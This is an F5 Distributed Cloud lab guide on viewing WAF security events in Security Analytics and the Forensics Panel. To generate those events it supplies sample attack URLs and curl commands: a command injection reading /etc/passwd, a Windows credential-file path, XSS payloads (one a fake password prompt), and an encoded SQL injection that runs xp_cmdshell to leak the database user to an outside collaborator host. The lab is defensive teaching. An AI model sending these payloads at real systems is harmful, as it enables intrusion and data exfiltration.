



Lab 4: F5 Distributed Cloud Security Analytics
==============================================

In Lab 1, we briefly touched on using Security Analytics and AI Assistant to gain insights into security events.

In this lab, we will dive a bit deeper into the Security Analytics and the Forensics Panel to visualize transaction characteristics by the load balancer and Web Application Firewall (WAF) engine.

We previously generated some WAF events for us to review. If you'd like to generate some fresh WAF events, feel free to do so now:

1. Open another tab in your browser, navigate to the newly configured Load Balancer configuration: **http://<namespace>-lb.lab-sec.f5demos.com**, to confirm it is still functional.

2. Using some of the sample attacks below, add the URI path & variables to your application to generate security event data.

   .. admonition:: Sample WAF Attack URLs

     * `http://\<your-namespace\>.lab-sec.f5demos.com/?cmd=cat%20/etc/passwd <http://\<your-namespace\>.lab-sec.f5demos.com/?cmd=cat%20/etc/passwd>`_
     * `http://\<your-namespace\>.lab-sec.f5demos.com/?4d4ad2dbdb=MzsvKiBhICovIERFQ0xBUkUgQGMgdmFyY2hhcigyNTUpOy8qIGIgKi9TRUxFQ1QgQGM9J3BpbmcgJyttYXN0ZXIuc3lzLmZuX3ZhcmJpbnRvaGV4c3RyKGNvbnZlcnQodmFyYmluYXJ5LFNZU1RFTV9VU0VSKSkrJy4wMDAuYnVycGNvbCcrJ2xhYm9yYXRvci5uZXQnOy8qeHgqLyBFWEVDIE1hc3Rlci5kYm8ueHBfY21kc2hlbGwgQGM7Lyp4eHgqLyBFWEVDIHNwX1NZU19Qcm90b09wIEBpZD0z <http://\<your-namespace\>.lab-sec.f5demos.com//?4d4ad2dbdb=MzsvKiBhICovIERFQ0xBUkUgQGMgdmFyY2hhcigyNTUpOy8qIGIgKi9TRUxFQ1QgQGM9J3BpbmcgJyttYXN0ZXIuc3lzLmZuX3ZhcmJpbnRvaGV4c3RyKGNvbnZlcnQodmFyYmluYXJ5LFNZU1RFTV9VU0VSKSkrJy4wMDAuYnVycGNvbCcrJ2xhYm9yYXRvci5uZXQnOy8qeHgqLyBFWEVDIE1hc3Rlci5kYm8ueHBfY21kc2hlbGwgQGM7Lyp4eHgqLyBFWEVDIHNwX1NZU19Qcm90b09wIEBpZD0z>`_
     * `http://\<your-namespace\>.lab-sec.f5demos.com/cart?search=aaa%E2%80%99%3E%3Cscript%3Eprompt%28%E2%80%98Please%2Benter%2Byour%2Bpassword%E2%80%99%29%3B%3C%2Fscript%3E <http://\<your-namespace\>.lab-sec.f5demos.com/cart?search=aaa%E2%80%99%3E%3Cscript%3Eprompt%28%E2%80%98Please%2Benter%2Byour%2Bpassword%E2%80%99%29%3B%3C%2Fscript%3E>`_

So far, the traffic we've generated is a from a standard web browser. To make our Security Analysts more interesting, let's generate some additional web requests using the `curl` command.

If you have MacOS, Linux, or WSL2, you can perform the follow steps on your own workstation, alternatively you can use the Web Shell on the Jumphost in the course's lab environment.

To access the Web Shell on the Jumphost, navigate to the lab components screen, select Access on the Jumphost, and choose Web Shell from the dropdown.

   |webshellaccess|

   .. note:: There are no right click paste options, based on your OS, you can use the following keyboard shortcuts to paste into the Web Shell: CMD + V for MacOS, CTRL + SHIFT + V for Linux, and CTRL + V or Shift + Insert for WSL2.

In either location let's curl the following URLs:

   .. code-block:: bash

      # Attempt to access a sensitive file on Windows host
      curl "http://<your-namespace>.lab-sec.f5demos.com/\?629503844d\=%5C%5C::1%5Cc$%5Cusers%5Cdefault%5Cntuser.dat"

      # Attempt to perform a reflected XSS attack
      curl "http://<your-namespace>.lab-sec.f5demos.com/q=%3cscript%3ealert%28%27xss%27%29%3c%2fscript%3e"

      # Attempt to perform a SQL Injection attack
      curl "http://<your-namespace>.lab-sec.f5demos.com/?4d4ad2dbdb=MzsvKiBhICovIERFQ0xBUkUgQGMgdmFyY2hhcigyNTUpOy8qIGIgKi9TRUxFQ1QgQGM9J3BpbmcgJyttYXN0ZXIuc3lzLmZuX3ZhcmJpbnRvaGV4c3RyKGNvbnZlcnQodmFyYmluYXJ5LFNZU1RFTV9VU0VSKSkrJy4wMDAuYnVycGNvbCcrJ2xhYm9yYXRvci5uZXQnOy8qeHgqLyBFWEVDIE1hc3Rlci5kYm8ueHBfY21kc2hlbGwgQGM7Lyp4eHgqLyBFWEVDIHNwX1NZU19Qcm90b09wIEBpZD0z"

      # Attempt to perform a XSS attack via a shopping cart search parameter
      curl "http://<your-namespace>.lab-sec.f5demos.com/cart?search=aaa'>"

Now that we have some security events generated, let's explore the Security Analytics dashboard.

3. Returning to the F5 Distributed Cloud Console, use the left-hand navigation to navigate to **Web App & API Protection section** and click on **Security**

4. Scroll to the **Load Balancers** section of the page and click the link for your respective load balancer.

5. From the **Dashboard** view, using the horizontal navigation, click **Security Analytics**.

   .. note:: *If you lost your 1 Hour Filter*, be sure to adjust your time filter in the upper right corner to the last 1 hour.

6. Review the various charts and graphs on the Security Analytics dashboard.

7. Next, let's explore the Forensics Panel to get a more granular view of the security events. Using the horizontal navigation, click **Forensics Panel**.

By default, WAF, Bot Defense, API, and Service Policy events are shown in the main chart.

 - WAF Events: Events generated by the Web Application Firewall engine including Threat Analysts, and Signature Based Bot Detection.
 - Bot Defense Events: Events generated by the Behavioral Bot Detection engine.
 - API Events: Events generated by the API Security engine.
 - Service Policy Events: Events generated by the Service Policy engine and often include blocked traffic due to geo-blocking or IP Intelligence lists.

8. In the Forensics Panel, you can see quick charts summarizing the security events over the selected time period. On the right side of each chart you can click the *pencil* icon to edit the chart settings.

For this excercise, let's change our charts to the following values:

   - attack_types.name
   - signatures.name
   - bot_info.classification
   - device_type

   .. note:: A description of security event fields can be found at `F5 Cloud Docs -> Security Events Reference <security_reference>`_.

   |labsecurityforensics|

   .. note:: *Feel free to explore the various other fields available to customize your charts.*

With our customized charts, we can now visualize the types of attacks, WAF signatures, bot classifications, and device types that are generating security events for our application.

By generating WAF events from different sources (web browser, curl commands), we can see how the WAF engine is identifying and classifying these events. You'll see that the curl generated events are included in the bot_info.classification chart as suspicious clients. The is nothing inherently malicious about using curl, but it is often used by attackers and security tools to probe web applications. By highlighting these clients, Security Analysts can further investigate the activity and determine if it is legitimate or malicious, or a part of a larger campaign.

9. From the Forensics Panel, select a WAF signature in the signatures.name chart by clicking on the bar in the chart. Once selected, click the **Apply Filter** button to filter the security events to only those that match the selected WAF signature.

|labsecurityforensicsfilter|

10. Review the filtered security events in the main table. You can click on any event to get more details about the specific security event.

This tool is very powerful for Security Analysts to quickly drill down into specific security events and understand the context of the attack, this can also be helpful for tuning WAF policies to reduce false positives.

**End of Lab 4**. Congratulations, you have successfully used Security Analytics and the Forensics Panel to visualize security events generated by your load balancer and WAF engine.

|labend|

.. _security_reference: https://docs.cloud.f5.com/docs-v2/platform/reference/security-events-reference

.. |labend| image:: _static/labend.png
   :width: 800px

